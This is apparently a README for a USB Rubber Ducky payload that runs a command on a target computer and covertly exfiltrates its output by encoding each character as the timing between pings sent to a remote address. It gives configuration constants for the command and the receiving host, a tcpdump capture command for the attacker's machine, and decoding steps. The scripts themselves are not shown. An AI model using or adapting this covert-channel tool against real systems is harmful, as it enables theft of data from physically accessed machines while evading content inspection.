

# ICMP - Timing-Based Data Exfiltration

- Author:        TW-D
- Version:       1.0
- Category:      Exfiltration (covert channel)

## Description

The *payload.sh* script runs a local system command and encodes its output character by character. Each character is converted to an ASCII value which defines a time offset used when sending a ping. No command output is placed inside the packets themselves — only the timing sequence of the pings carries the information.

The *decode.sh* script reads a file of timestamps (the moments when pings were received) and, by computing successive offsets between those timestamps, reconstructs the original output.

<div align="center">
	
</div>

> [!NOTE]
> Data exfiltration using this method takes a long time.

## Configuration

In the "payload.txt" file, replace the values of the following constants :

```

REM ---
REM USB Rubber Ducky label.
REM ---
DEFINE #RD_LABEL DUCKY

REM ---
REM Command line to be executed by the target computer.
REM ---
DEFINE #SYSTEM_COMMAND "whoami"

REM ---
REM Remote address where ICMP packets will be sent.
REM ---
DEFINE #REMOTE_ADDRESS "127.0.0.1"

```

Place the *payload.sh* file at the root of the USB Rubber Ducky.

## Usage

On the host receiving ICMP packets, start a packet capture and save the timestamps:

```bash
hacker@hacker-computer:~$ sudo tcpdump --interface="<INTERFACE>" -l -n -q --snapshot-length=0 -tt "icmp[icmptype] == 8" | awk -W interactive '{print $1}' &> >(tee ./timestamps.log)
```

When no other packet has arrived in the last 5 minutes (255 / 60 in extended ASCII), stop the capture (Ctrl+C) and decode the timestamps:

```bash
[CTRL+c]
hacker@hacker-computer:~$ "${BASH}" ./decode.sh ./timestamps.log
```
